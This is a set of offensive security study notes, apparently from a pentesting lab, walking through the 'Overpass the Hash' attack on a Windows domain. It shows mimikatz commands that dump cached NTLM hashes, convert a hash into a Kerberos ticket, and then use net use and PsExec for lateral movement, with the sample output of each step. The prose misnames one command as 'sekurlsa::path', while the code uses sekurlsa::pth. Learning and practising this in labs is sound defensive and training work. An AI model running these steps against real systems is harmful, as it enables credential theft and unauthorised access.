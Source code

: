 ```yaml
---
description: >-
  With overpass the hash, we can "over" abuse an NTLM user hash to gain a full
  Kerberos Ticket Granting Ticket (TGT).
---
```


# Overpass The Hash



## Recap

With Overpass the Hash, we can "over" abuse the NTLM user hash to gain a full Kerberos Ticket Granting Ticket (TGT). Then we use the TGT to obtain a Ticket Granting Service (TGS).





## Attack



### Check If Machine is Caching Credentials

We can check if a machine is caching credentials by right-clicking on an applicaton -> "show more options" -> and see if "Run as different user" is an option.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### Launch Mimikatz

We can validate this with the **sekurlsa::logonpasswords** command from **mimikatz** after having spawned an Administrative shell. The command will dump the cached password hashes.

```powershell
mimikatz # privilege::debug
Privilege '20' OK
mimikatz # sekurlsa::logonpasswords

...
Authentication Id : 0 ; 1142030 (00000000:00116d0e)
Session           : Interactive from 0
User Name         : jen
Domain            : CORP
Logon Server      : DC1
Logon Time        : 2/27/2023 7:43:20 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1124
        msv :
         [00000003] Primary
         * Username : jen
         * Domain   : CORP
         * NTLM     : 369def79d8372408bf6e93364cc93075
         * SHA1     : faf35992ad0df4fc418af543e5f4cb08210830d4
         * DPAPI    : ed6686fedb60840cd49b5286a7c08fa4
        tspkg :
        wdigest :
         * Username : jen
         * Domain   : CORP
         * Password : (null)
        kerberos :
         * Username : jen
         * Domain   : CORP.COM
         * Password : (null)
        ssp :
        credman :
...
```



### Turn NTLM Hash to Kerberos Ticket

Let's perform the attack in mimikatz and turn the NTLM user hash into a full kerberos ticket. We can do so with **sekurlsa::path**.

```powershell
mimikatz # sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell 
user    : jen
domain  : corp.com
program : powershell
impers. : no
NTLM    : 369def79d8372408bf6e93364cc93075
  |  PID  8716
  |  TID  8348
  |  LSA Process is now R/W
  |  LUID 0 ; 16534348 (00000000:00fc4b4c)
  \_ msv1_0   - data copy @ 000001F3D5C69330 : OK !
  \_ kerberos - data copy @ 000001F3D5D366C8
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 000001F3D5C63B68 (32) -> null
```



### Authenticate & Gain Interactive Shell.

The next step is to authenticate with the network to gain the ticket. We can do so with the "**net use**" command.

```powershell
PS C:\Windows\system32> net use \\files04
The command completed successfully.

PS C:\Windows\system32> klist

Current LogonId is 0:0x17239e

Cached Tickets: (2)

#0>     Client: jen @ CORP.COM
        Server: krbtgt/CORP.COM @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 2/27/2023 5:27:28 (local)
        End Time:   2/27/2023 15:27:28 (local)
        Renew Time: 3/6/2023 5:27:28 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called: DC1.corp.com

#1>     Client: jen @ CORP.COM
        Server: cifs/files04 @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
        Start Time: 2/27/2023 5:27:28 (local)
        End Time:   2/27/2023 15:27:28 (local)
        Renew Time: 3/6/2023 5:27:28 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called: DC1.corp.com
```



### Move Laterally

Now that we have a full kerberos ticket we can move laterally.

```powershell
PS C:\tools\SysinternalsSuite> .\PsExec.exe \\files04 cmd
```

\
